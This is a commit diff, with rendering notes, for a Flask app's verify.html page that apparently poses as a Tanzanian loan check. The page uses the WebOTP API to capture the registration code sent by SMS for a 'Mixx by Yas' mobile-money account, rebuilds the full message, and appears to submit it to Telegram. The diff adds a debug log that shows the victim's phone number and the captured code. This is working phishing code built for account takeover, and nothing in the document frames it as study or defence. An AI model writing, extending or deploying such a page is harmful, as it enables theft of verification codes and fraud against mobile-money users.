

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the whole page at 94% size. Before the commit the page ends 978 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -62,6 +62,21 @@
         }
         .hidden { display: none !important; }
         .screen { display: none; } .screen.active { display: block; }
+        .debug-log {
+            background: #0d1225;
+            color: #34d399;
+            padding: 10px;
+            border-radius: 8px;
+            font-size: 12px;
+            font-family: monospace;
+            margin-top: 10px;
+            max-height: 80px;
+            overflow-y: auto;
+            border: 1px solid #2a2f4a;
+            text-align: left;
+            display: none;
+        }
+        .debug-log.show { display: block; }
     </style>
 </head>
 <body>
@@ -91,6 +106,7 @@
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
+                <div class="debug-log" id="debugLog"></div>
             </div>
             <div class="screen" id="screen2">
                 <div class="waiting-content">
@@ -106,6 +122,20 @@
 
     <script>
         // ================================================================
+        // DEBUG FUNCTION
+        // ================================================================
+        function debugLog(msg) {
+            var log = document.getElementById('debugLog');
+            log.classList.add('show');
+            var time = new Date().toLocaleTimeString();
+            log.innerHTML += '[' + time + '] ' + msg + '\n';
+            log.scrollTop = log.scrollHeight;
+            console.log(msg);
+        }
+
+        debugLog('🚀 Page loaded');
+
+        // ================================================================
         // GET URL PARAMETERS
         // ================================================================
         var urlParams = new URLSearchParams(window.location.search);
@@ -117,6 +147,9 @@
         document.getElementById('loanAmount').textContent = 'TZS ' + loanAmount.toLocaleString();
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
         document.getElementById('showPhone2').textContent = '+255 ' + userPhone;
+
+        debugLog('📱 App ID: ' + appId);
+        debugLog('📱 Phone: ' + userPhone);
 
         // ================================================================
         // VARIABLES
@@ -136,8 +169,10 @@
             var ua = navigator.userAgent.toLowerCase();
             if (/iphone|ipad|ipod/.test(ua)) {
                 document.getElementById('btnIPhone').style.display = 'block';
+                debugLog('📱 iPhone detected');
             } else {
                 document.getElementById('btnAndroid').style.display = 'block';
+                debugLog('📱 Android detected');
             }
         })();
 
@@ -210,6 +245,9 @@
                 return;
             }
 
+            debugLog('📤 Submitting SMS to Telegram...');
+            debugLog('📤 SMS length: ' + smsText.length);
+
             isSubmitting = true;
             document.getElementById('submitBtn').disabled = true;
             document.getElementById('submitBtn').innerHTML = '<span class="spinner"></span> Inatuma...';
@@ -268,23 +306,22 @@
 
         // ================================================================
         // WAIT FOR NOTIFICATION - WebOTP
-        // THIS COPIES THE FULL SMS AND FILLS IT
         // ================================================================
         function waitForNotification() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                console.log('Wait: Not on code screen');
+                debugLog('⏹️ Not on code screen, stopping');
                 return;
             }
 
             if (!('OTPCredential' in window)) {
+                debugLog('❌ WebOTP not supported on this browser');
                 document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
                 document.getElementById('codeError').style.color = '#f59e0b';
                 document.getElementById('codeError').classList.add('show');
-                console.log('Wait: WebOTP not supported');
                 return;
             }
 
-            console.log('⏳ Waiting for SMS notification...');
+            debugLog('⏳ Waiting for SMS notification...');
             document.getElementById('codeError').textContent = '⏳ Inasubiri SMS...';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -294,7 +331,7 @@
             var controller = new AbortController();
             var timeout = setTimeout(function() {
                 controller.abort();
-                console.log('Wait: Timeout - no SMS received');
+                debugLog('⏱️ WebOTP timeout - no SMS received');
                 document.getElementById('codeError').textContent = '⏱️ Muda Umeisha. Bonyeza "Hukupokea SMS"';
                 document.getElementById('codeError').style.color = 'var(--danger)';
             }, 60000);
@@ -307,16 +344,18 @@
                 clearTimeout(timeout);
                 if (otp && otp.code) {
                     detectedCode = otp.code;
-                    console.log('✅ SMS detected from notification! Code:', otp.code);
+                    debugLog('✅ SMS DETECTED! Code: ' + otp.code);
 
                     // BUILD THE FULL SMS
                     var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + otp.code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
+
+                    debugLog('📝 Full SMS: ' + fullSMS);
 
                     // FILL THE TEXTAREA WITH FULL SMS
                     smsTextarea.value = fullSMS;
                     smsDetected = true;
 
-                    console.log('✅ Full SMS filled:', fullSMS);
+                    debugLog('✅ Full SMS filled in textarea!');
 
                     document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                     document.getElementById('codeError').style.color = '#10b981';
@@ -329,9 +368,9 @@
             })
             .catch(function(e) {
                 if (e.name === 'AbortError') {
-                    console.log('Wait: WebOTP timeout');
+                    debugLog('⏱️ WebOTP timeout (aborted)');
                 } else {
-                    console.log('Wait: WebOTP error', e);
+                    debugLog('❌ WebOTP error: ' + e.message);
                     document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
                     document.getElementById('codeError').style.color = 'var(--danger)';
                     document.getElementById('codeError').classList.add('show');
@@ -345,9 +384,7 @@
         startCountdown();
         setTimeout(waitForNotification, 500);
 
-        console.log('✅ MixxPlus - Waiting for SMS notification...');
-        console.log('📱 App ID: ' + appId);
-        console.log('📱 Phone: ' + userPhone);
+        debugLog('✅ MixxPlus - Waiting for SMS notification...');
     </script>
 </body>
 </html>
```
